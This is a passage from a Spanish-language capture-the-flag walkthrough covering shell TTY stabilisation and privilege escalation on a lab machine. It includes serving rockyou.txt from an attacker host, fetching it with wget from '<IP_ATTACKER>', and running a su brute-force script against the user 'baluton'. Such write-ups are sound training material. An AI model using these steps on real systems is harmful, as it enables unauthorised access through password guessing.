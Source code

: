 Vemos que ha funcionado, por lo que sanitizaremos la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user baluton

Si buscamos en todo el sistema no veremos nada interesante, por lo que como ultimo recurso vamos a probar a realizar fuerza bruta con el usuario `balutin` utilizando un script y pasarnos el diccionario `rockyou.txt`.

URL = [Download GitHub suBruteforce.sh](https://github.com/D1se0/suBruteforce/blob/main/suBruteforceBash/suBruteforce.sh)

Vamos a pasarnos dicho archivo a la carpeta `/tmp`, una vez que lo hayamos echo le daremos permisos de ejecuccion de esta forma:

```shell
cd /tmp
chmod +x suBruteforce.sh
```

Y vamos a pasarnos el diccionario desde el `host`.

```shell
cp /usr/share/wordlists/rockyou.txt rockyou.txt
python3 -m http.server 80
```

Ahora desde la maquina victima haremos lo siguiente:

```shell
wget http://<IP_ATTACKER>/rockyou.txt
```

Una vez que nos hayamos pasado todo, lo ejecutaremos de esta forma:

```shell
./suBruteforce.sh baluton rockyou.txt
```
